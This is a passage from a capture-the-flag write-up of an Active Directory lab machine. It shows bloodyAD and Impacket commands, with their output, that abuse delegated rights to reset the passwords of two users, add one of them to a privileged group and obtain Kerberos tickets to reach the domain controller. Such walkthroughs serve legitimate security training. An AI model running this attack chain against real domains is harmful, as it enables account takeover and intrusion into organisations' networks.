 ### 5.3. Change password of `e.rodriguez`

With the full control permission that `d.anderson` now has on `MARKETING DIGITAL`, change the password for `e.rodriguez` to gain access to this account

> [!Tip]
>
> bloodyAD is used to perform specific LDAP calls to a domain controller for AD privesc
> 
> It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc
>
> Install bloodyAD in Kali with `apt -y install bloodyAD`

```console
root@kali:~# bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u d.anderson -k set password e.rodriguez Pass1234
[+] Password changed successfully!
```

### 5.4. Use `e.rodriguez` to `AddSelf` to `CHIEFS MARKETING`

#### 5.4.1. Generating TGT for e.rodriguez`

```console
root@kali:~# impacket-getTGT infiltrator.htb/e.rodriguez:Pass1234 -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in e.rodriguez.ccache

root@kali:~# export KRB5CCNAME=e.rodriguez.ccache
```

#### 5.4.2. Adding self to group

```console
root@kali:~# bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u e.rodriguez -k add groupMember 'CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB' e.rodriguez
[+] e.rodriguez added to CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB
```

### 5.5. Change password of `m.harris`

```console
root@kali:~# bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u e.rodriguez -k set password m.harris Pass1234
[+] Password changed successfully!
```

### 5.6. Use `m.harris` to access `DC01`

#### 5.6.1. Generating TGT for m.harris`

```console
root@kali:~# impacket-getTGT infiltrator.htb/m.harris:Pass1234 -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in m.harris.ccache

root@kali:~# export KRB5CCNAME=m.harris.ccache
```
